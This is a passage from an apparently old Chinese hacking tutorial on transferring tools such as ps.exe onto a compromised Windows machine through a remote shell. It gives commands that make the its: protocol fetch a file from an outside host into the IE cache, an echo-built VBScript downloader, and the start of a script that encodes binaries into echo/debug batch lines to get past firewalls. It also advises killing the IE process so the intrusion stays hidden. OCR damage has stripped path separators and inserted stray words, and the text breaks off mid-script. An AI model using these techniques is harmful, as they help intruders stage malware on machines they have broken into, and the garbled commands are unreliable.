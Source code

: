 2，自动下载到网页缓存中。
例如：
```
start its:<http://www.sometips.com/soft/ps.exe>
```
在远程shell中执行上面这个命令后，ps.exe已经下载到目标主机的网页缓存目录中了。然后：
```
cd "C:Documents and SettingsDefault UserLocal SettingsTemporary Internet FilesContent.IE5"
dir /s ps[1].exe
```
于是获得ps.exe的具体位置(每台主机都不一样)，如：
```
C:Documents and SettingsDefault UserLocal SettingsTemporary Internet FilesContent.IE5AB094JIT 的目录

2004-01-24 14:24 49,152 ps[1].exe
1 个文件 49,152 字节
```
最后：
```
copy AB094JITps[1].exe c:pathps.exe
del AB094JITps[1].exe
```
补充说明：
对于以服务为启动方式的后门所提供的shell，其用户身份一般是System。此时网页缓存目录的位置就如例子中所示。如果shell的身份不是System，需要修改Default User为相应的用户名。
本方法会启动一个IE进程，记得要将它杀掉。如果是System身份的shell，不会在本地出现窗口而暴露。
另外，用ms-its代替its效果完全一样。

3，Echo一个脚本下载web资源。
现成的工具是iGet.vbs。我再给出一个含必要容错功能的版本。
仍然是echo版：
```
@echo with wscript:if .arguments.count^<2 then .quit:end if > dl.vbs
@echo set aso=.createobject("adodb.stream"):set web=createobject("microsoft.xmlhttp") >> dl.vbs
@echo web.open "get",.arguments(0),0:web.send:if web.status^>200 then .echo "Error:"+web.status:.quit >> dl.vbs
@echo aso.type=1:aso.open:aso.write web.responsebody:aso.savetofile .arguments(1),2:end with >> dl.vbs
```
举例--下载ps.exe并保存到c:path下：
```
cscript dl.vbs <http://www.sometips.com/soft/ps.exe> c:pathps.exe
```
注意，这是在远程shell中执行的。

4，Echo经过编码的任何文件，再用脚本+debug还原。
前面两个办法都不能保证穿过防火墙。而且，除非自己架Web服务器，一般的Web资源都是以压缩文件的形式提供。如果目标主机没有解压工具，还是没辙。那么只有出"杀手锏"了！

echo命令加重定向操作符可以写入ASCII码小于128的字符，但大于等于128的不行。只有将本地文件重新"编码"为可显示的字符，才能方便地写入远程主机。首先能想到的就是base64编码，即email附件的编码方式。但vbs不支持位操作，因此编码和解码较复杂。更麻烦的是，脚本以黑客动画吧流方式处理文件的能力很差。（ADODB.Stream可以以流方式写文件，但我无法构造出相应的数据类型。黑客动画吧数据流可以用midb函数转成字符串，但反过来不行。我花了两天时间，还是没能解决这个问题。如果有谁能用vbs或js写任意的字节数据到文件中，恳请赐教。）

无奈只有请debug.exe出马了。原理很多人都知道，我不介绍了，直接给出成果--编码脚本：
```
fp=wscript.arguments(0)
fn=right(fp,len(fp)-instrrev(fp,""))
with createobject("adodb.stream")
.type=1:.open:.loadfromfile fp:str=.read:sl=lenb(str)
end with
sll=sl mod 65536:slh=sl65536
with createobject("scripting.filesystemobject").opentextfile(fp&".bat",2,true)
.write "@echo str="""
for i=1 to sl
bt=ascb(midb(str,i,1))
if bt<16 then .write "0"
.write hex(bt)
if i mod 128=0 then .write """_>>debug.vbs"+vbcrlf+"@echo +"""
next
```